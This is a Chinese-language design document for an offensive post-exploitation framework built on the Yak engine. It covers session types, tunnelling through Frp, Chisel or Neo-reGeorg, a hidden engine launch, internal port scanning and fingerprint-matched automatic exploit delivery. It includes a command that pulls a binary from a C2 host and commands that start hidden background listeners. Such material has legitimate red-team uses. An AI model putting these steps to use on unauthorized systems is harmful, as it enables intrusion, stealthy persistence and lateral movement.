

# Yak 引擎后渗透与横向移动方案设计 (多协议通用版)

## 1. 概述
本方案采用了基于 Yak 引擎（Yak Engine）的自动化后渗透（Post-Exploitation）与横向移动策略。本方案不仅支持标准的 SSH 会话，还通过抽象“会话层”和“传输层”，兼容 Webshell、反弹 Shell (Reverse Shell)、C2 会话 (Meterpreter/Beacon) 等多种入口场景。

核心思想是将目标主机转化为一个功能强大的“扫描节点”，利用 Yak 强大的内置扫描能力和脚本生态进行内网资产发现、指纹识别及漏洞验证。

## 2. 核心架构

系统采用分层架构，以屏蔽不同控制通道（Session）的差异，统一上层业务逻辑。

### 2.1 架构分层

*   **业务逻辑层 (Business Layer)**:
    *   负责任务调度、指纹分析、脚本匹配 (`scanner.db`)。
    *   不感知底层连接方式，仅调用统一的 gRPC 接口。
*   **传输抽象层 (Transport Layer)**:
    *   **SSH**: 利用 SSH Tunnel (Local Port Forwarding) 映射 gRPC 端口。
    *   **Weak Session (Webshell/RCE)**: 利用反向代理 (Reverse Proxy) 或 HTTP 隧道将 gRPC 端口映射回控制端。
    *   **C2**: 利用 C2 框架自带的 SOCKS 代理或端口转发功能。
*   **执行环境层 (Execution Layer)**:
    *   目标机运行 Yak 引擎 (gRPC Server)。
    *   执行端口扫描、脚本利用。

### 2.2 数据流向 (通用模型)



## 3. 详细工作流程

### 3.1 阶段一：会话接入与环境感知
根据获取权限的不同，分为“强会话”和“弱会话”两种接入模式。

#### 模式 A: 强会话 (SSH / WinRM / RDP)
*   **特点**: 交互性好，原生支持文件传输，支持正向端口转发。
*   **部署**: 直接通过 SFTP/SCP 上传 Yak 二进制。
*   **通信**: 使用 SSH Local Port Forwarding (`ssh -L local_port:127.0.0.1:9919`) 直接访问目标 gRPC。

#### 模式 B: 弱会话 (Webshell / RCE / Reverse Shell)
*   **特点**: 无状态(HTTP)或不稳定，无原生文件传输，通常在 NAT 后，无法直连。
*   **部署 (Loader 模式)**:
    *   Smart Server 开启临时 HTTP 文件服务。
    *   通过命令 (`curl`, `wget`, `certutil`, `powershell`) 下载 Yak 引擎。
    *   *命令示例*: `curl -O http://c2-server/yak && chmod +x yak`
*   **通信 (反向隧道)**:
    *   **方案一 (推荐)**: 上传轻量级反向代理工具 (如 Frp, Chisel) 或使用 Yak 自带的反连模式 (若支持)。建立反向隧道，将目标 9919 端口映射到 Smart Server 本地。
    *   **方案二 (Webshell)**: 使用 HTTP 隧道工具 (如 Neo-reGeorg) 搭建 SOCKS5 代理，Smart Server 通过代理连接 gRPC。

### 3.2 阶段二：引擎注入与启动
1.  **进程守护**:
    *   Linux: `nohup ./yak grpc --host 127.0.0.1 --port 9919 > /dev/null 2>&1 &`
    *   Windows: `Start-Process -FilePath .\yak.exe -ArgumentList "grpc --host 127.0.0.1 --port 9919" -WindowStyle Hidden`
2.  **服务探活**:
    *   Smart Server 尝试通过建立好的隧道 (Tunnel) 连接 gRPC 接口，确认服务可用。

### 3.3 阶段三：内网资产与指纹发现 (业务层)
*此阶段与会话类型无关，统一通过 gRPC 接口交互。*

1.  **下发扫描任务**:
    *   调用 Yak gRPC `PortScan` 接口。
    *   配置参数：目标网段（默认本机 C 段）、端口组（22, 80, 443, 445 等）、指纹识别模式 (`fingerprint: all`)。
2.  **结果处理**:
    *   实时接收流式结果。
    *   解析开放端口、服务名称（Service Name）、指纹信息（Fingerprint）。
    *   自动将新发现的存活主机入库 (`task_target`) 并标记为 `IsAlive`。

### 3.4 阶段四：自动化脚本投递（Auto-Exploit）
*本方案的核心创新点在于**基于指纹的动态脚本分发**。*

1.  **关键词提取**:
    *   对 Yak 返回的指纹字符串（如 `Apache Tomcat/9.0.1`）进行分词处理。
    *   提取关键词：`Apache`, `Tomcat`, `9.0.1`。
    *   合并服务名：`http`, `https`。
2.  **脚本匹配**:
    *   查询本地 SQLite 数据库 (`scanner.db` -> `vul_scripts` 表)。
    *   使用 `LIKE` 模糊匹配查询 `script_name` 包含关键词的脚本。
    *   例如：关键词 `Tomcat` 可能匹配到 `Tomcat-Weak-Pass.yak` 或 `Tomcat-RCE.yak`。
3.  **远程执行**:
    *   读取匹配到的脚本源码 (`Content` 字段)。
    *   构造 `ExecRequest`，将源码通过 gRPC 发送给目标机上的 Yak 引擎。
    *   Yak 引擎在内网环境执行该脚本，直接攻击/验证内网目标。
4.  **结果回传**:
    *   捕获脚本的标准输出（Stdout）。
    *   清洗 ANSI 颜色码。
    *   记录至 `task_log` 和 `task_task_result`。

## 4. 数据模型设计

### 4.1 漏洞脚本表 (SQLite: vul_scripts)
存储用于自动化投递的 Yak 脚本源码。

*   **部署位置**: `/opt/laozhi/smart/scanner.db` (Linux) 或项目根目录 (Dev)。
*   **Schema**:

```sql
CREATE TABLE "vul_scripts" (
   "id" INTEGER NOT NULL PRIMARY KEY,
   "user_id" INTEGER NOT NULL,
   "script_name" text NOT NULL,   -- 脚本名称，用于模糊匹配 (e.g., "WebLogic-RCE-Check")
   "type" TEXT,
   "lib_name" TEXT,
   "content" TEXT,                -- 脚本源码 (Yaklang)
   "vul_id" INTEGER,
   "verify_type" TEXT,
   "params" TEXT,
   "create_time" TEXT,
   "update_time" TEXT,
   "evidence_type" TEXT,
   "component" TEXT,              -- 组件名称 (e.g., "WebLogic")
   "product" TEXT
);
```

### 4.2 任务结果关联
*   **指纹日志**: 记录在 `task_task_result` 中，`subObjType="service"`，包含 JSON 格式的详细指纹。
*   **攻击日志**: 脚本执行的输出记录在 `task_log_info` 或 `task_task_result` 中，便于后续审计。

## 5. 优势
1.  **环境隔离**: 攻击脚本在目标内网执行，解决了网络不可达问题。
2.  **协议无关**: 无论通过 SSH、Webshell 还是 C2 上线，只要能建立数据通道，即可复用整套后渗透逻辑。
3.  **动态适配**: 基于实时发现的指纹动态选择脚本，比固定 Payload 更精准。
4.  **能力复用**: 复用 Yak 强大的现有脚本生态，无需重复开发扫描插件。
5.  **无痕/低痕**: 脚本在内存中执行（取决于 Yak 实现），不强制落地文件到磁盘。
